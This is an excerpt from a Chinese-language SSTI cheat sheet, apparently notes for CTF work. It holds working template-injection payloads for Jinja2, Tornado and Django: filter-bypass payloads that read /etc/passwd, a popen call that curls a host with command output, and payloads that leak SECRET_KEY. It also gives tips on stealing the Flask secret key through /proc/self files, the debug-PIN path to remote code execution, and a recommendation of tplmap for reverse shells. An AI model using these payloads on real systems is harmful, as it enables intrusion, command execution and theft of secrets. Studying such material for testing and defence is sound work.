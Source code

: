 过滤下划线

```python
{{''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__
```

过滤花括号

```python
#用{%%}标记
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://127.0.0.1:7999/?i=`whoami`').read()=='p' %}1{% endif %}
```

这里推荐自动化工具tplmap，拿shell、执行命令、bind_shell、反弹shell、上传下载文件，Tplmap为SSTI的利用提供了很大的便利

## Tornado

```python
{{handler.settings}}
```

## Django

```python
http://localhost:8000/?email={user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}

http://localhost:8000/?email={user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}
```

## Flask

### session 伪造

密钥寻找

```python
1. app.py文件
2. config.py文件
3. 有关文件读取的代码：
   linux 提供了/proc/self/目录，这个目录比较独特，不同的进程访问该目录时获得的信息是不同的，内容等价于/proc/本进程pid/目录，/proc/self/environ是此文件包含设置的初始环境，换句话说就是该进程的环境变量
4. 可以利用python存储对象的位置在堆上这个特性，app是实例化的Flask对象，而secret key在app.config['SECRET_KEY']，所以可以通过读取/proc/self/mem来读取secret key
```

### PIN码攻击

如果看到调试模式可以尝试

在右边框打开python交互shell控制台，需要输入pin码，然后开启python交互shell控制台，我们就可以进行RCE了

# Java 中的 SSTI
